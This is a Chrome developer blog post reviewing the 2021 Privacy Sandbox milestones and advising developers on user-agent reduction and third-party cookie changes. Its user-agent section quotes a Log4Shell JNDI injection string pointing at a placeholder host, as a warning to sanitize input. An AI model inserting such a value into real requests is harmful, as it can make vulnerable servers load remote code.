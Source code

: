 ```yaml
---
title: Progress in the Privacy Sandbox (December 2021)
description: >
  Looking back at stats from 2021 and some resolutions for tackling user-agent and cookies in 2022.
layout: 'layouts/blog-post.njk'
date: 2022-01-07
authors:
  - rowan_m
hero: 'image/VWw0b3pM7jdugTkwI6Y81n6f5Yc2/Ut0IykTaEFBuOA5EHqbg.png'
alt: >
  Privacy Sandbox logo
tags:
  - progress-in-the-privacy-sandbox
  - privacy
---
```


Welcome to the 2021 wrap-up edition of **[Progress in the Privacy
Sandbox](/tags/progress-in-the-privacy-sandbox/)** tracking the milestones on
the path to phasing out third-party cookies in Chrome and working towards a more
private web. Normally, we share an overview of updates to the **[Privacy Sandbox
timeline](https://privacysandbox.com/timeline/)** along with news from across
the project, but December was a quiet month. Instead, we'll look back at some of
the activities over 2021 and provide a few potential resolutions you can make
now we are in the new year.

## Chromium development process

For a new web platform feature to land in Chromium, it needs to go through the
[project's open development
process](https://www.chromium.org/blink/launching-features). In 2021, the
Privacy Sandbox team produced:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
  <tr><td>🥚</td><td>Intent to Prototype </td>     <td>19</td></tr>
  <tr><td>🧪</td><td>Intent to Experiment</td><td>&nbsp;7</td></tr>
  <tr><td>🚀</td><td>Intent to Ship      </td>     <td>11</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

Each milestone is also an invitation for the wider web ecosystem to contribute.

An **Intent to Prototype** is the first checkpoint, where we invite discussion
and early experimentation. This means a proposal will be available on GitHub,
where **you can ask a question by creating an Issue** or **[join discussions and
presentations in standards
groups](/docs/privacy-sandbox/cds21-update/#discussion)** such as the W3C and
IETF. This is also where coding begins, which means you can **expect the
prototype functionality to be made available for developer testing behind a
[feature
flag](https://www.chromium.org/developers/how-tos/run-chromium-with-flags)**.
Initial feedback is critical for validating and iterating on proposals.

An **Intent to Experiment** is an optional step if we’d like to request an
origin trial. Developers **can [sign up for the origin
trial](/blog/origin-trials/)** of a feature, and then **test  it on your
production site**. It's called an experiment because we have specific aspects of
the feature we want to validate in real-world environments. Developers that can
**test and share the results of those tests** provide valuable feedback to help
iterate and evolve the feature.

An **Intent to Ship** is the final milestone which signals that a feature is now
complete and ready for general availability. Once approved, the feature is
merged into an upcoming release and then progresses through the Canary, Beta,
and Stable channels. It's critical to ensure you **test your sites with the
[Canary](https://www.google.com/chrome/canary/) and
[Beta](https://www.google.com/chrome/beta/) versions of Chrome** to catch and
report any bugs before a feature reaches Stable.

## Proposals

Each Privacy Sandbox proposal has an accompanying GitHub repository. A
repository hosts an explainer to summarize overall functionality, a detailed
specification for implementation by browsers, and contributions from across the
web ecosystem in the form of Issues and Pull Requests.

Across 14 Privacy Sandbox repositories, we had:

<figure>
  <table style="font-size: 140%; font-weight: bold; font-variant-numeric: tabular-nums;">
    <tr><td rowspan="2">💬</td><td>545</td><td>Issues created</td></tr>
    <tr>                       <td>250</td><td>Issues closed</td></tr>
    <tr><td rowspan="2">🛠️</td><td>261</td><td>Pull Requests created</td></tr>
    <tr>                       <td>223</td><td>Pull Requests merged</td></tr>
  </table>
  <figcaption>
    <a href="https://docs.google.com/spreadsheets/d/e/2PACX-1vR-5YYZ-lxG9xelJFCYM2yajUEWUNKZkiXcWX9BYi8dSUV_5Xrhd5u-iyNNf4w8NAVwrSrVWjeNrC-i/pubhtml#">Source</a>
  </figcaption>
</figure>

The language in explainers and specifications is often targeted to an audience
already familiar with standards and browser development, which can be
challenging if you're unfamiliar with it. However, the aim of an explainer is to
explain! If there are points that are unclear or not covered, **we want you to
raise an Issue** so we can update and clarify the explainer.

## Resolutions

### User-agent spring cleaning

As we count _down_ to the New Year, we're also counting _up_ to both [Chrome
100](/blog/force-major-version-to-100/) and the incremental [reduction of the
user-agent string](/docs/privacy-sandbox/user-agent/). This is a good motivator
to revisit any usage of the user-agent string in your code to check if it's
affected by either of these changes.

To find those areas:

1. Search for `navigator.userAgent` in your JavaScript code, or access to the
   `User-Agent` header in your server code.
2. Check your parsing of the string for assumptions about a 2 digit version. For
   example, a regex that specifies `\d\d` or `\d{2}` should be replaced with
   `\d+`.
3. Check your use of the string for anywhere you rely on the:
    * platform (operating system) version
    * full Chrome build version
    * mobile device name
4. These are the values that will be reduced to fixed strings in the future. If
   you need access to these values, [migrate to User-Agent Client
   Hints](https://web.dev/migrate-to-ua-ch/).

There is one December update to mention—if you are adopting User-Agent Client
Hints then we have sent the **Intent to Ship to [enable delegating hints to
other origins in
HTML](https://groups.google.com/a/chromium.org/g/blink-dev/c/JQ68cvYuiQU/m/S_33YSqxCwAJ)**
via a `<meta>` tag, for example:

```html
<meta name="accept-ch" content="sec-ch-ua-model=( https://foo.bar )">`
```

If you're in an enthusiastic spring cleaning mood, you can also consider
alternatives to the use of user-agent altogether. If you're using the string to
detect mobile devices, then investigate if you can replace this with responsive
design. If you're checking the browser name and version for feature support, see
if you can use feature detection instead.

It's always worth remembering that the user-agent, like any client provided
value, is not guaranteed to be accurate or even provided. The recent [Log4j
vulnerability, "Log4shell"](https://logging.apache.org/log4j/2.x/security.html)
provides an example of this risk. A client that sets its user-agent string to
include a value like `${jndi:ldap://example.com/file}` may be able to get a site
to actively parse that on the server. It's critical that you treat user-agent in
the same way as any other form of user input: sanitize and validate it before
acting on the value.

### Cookie cataloguing

Another traditional new year activity is to make sure you're happy you have a
healthy number of cookies with quality ingredients. As we continue moving
towards the phase out of third-party cookies, you should make sure you know
which of your site's cookies will be affected. 2020 provided a headstart as it
became necessary to [mark all cookies for cross-site or third-party
use](https://web.dev/samesite-cookies-explained/#samesitenone-must-be-secure)
with `SameSite=None`. 

Any cookie where you have set the `SameSite` attribute to `None` will need an
update.

There are three possible routes to consider at the moment:

1. If the cookie is only required in a 1:1 relationship with the top-level site,
   then follow the progress of the **[CHIPS
   proposal](https://github.com/WICG/CHIPS)**. This will mean adding the
   `Partitioned` attribute to the cookie.
2. If the cookie is used in a cross-site context, but only across sites that you
   own and operate, then it may be a candidate for **[First-Party
   Sets](/docs/privacy-sandbox/first-party-sets/)**. This requires defining the
   sites in the set and adding the `SameParty` attribute to the cookie.
3. If the cookie is used to provide some form of shared value across multiple
   sites, investigate the wider set of [Privacy Sandbox
   proposals](/docs/privacy-sandbox/) for an alternative solution that does not
   rely on cross-site tracking.

If you're feeling especially health-conscious, then this is also an ideal time
to revisit all of your cookie usage, as we have a good recipe to improve your
first-party cookies too.

{% YouTube id='1g2uQfP1Q3U' %}

## Feedback

As we continue to publish these monthly updates, and progress through the
Privacy Sandbox as a whole, we want to make sure that developers receive the
information and support that they need. Let us know on [@ChromiumDev
Twitter](https://twitter.com/ChromiumDev) if there's anything that we could
improve in this series. We'll use your input to continue improving the format.

Check out the **[Privacy Sandbox FAQ](/docs/privacy-sandbox/faq/)**, which we
continue to expand based on the issues you submit to the [developer support
repo](https://github.com/GoogleChromeLabs/privacy-sandbox-dev-support). If you
have any questions around testing or implementation on any of the proposals,
come talk to us there.
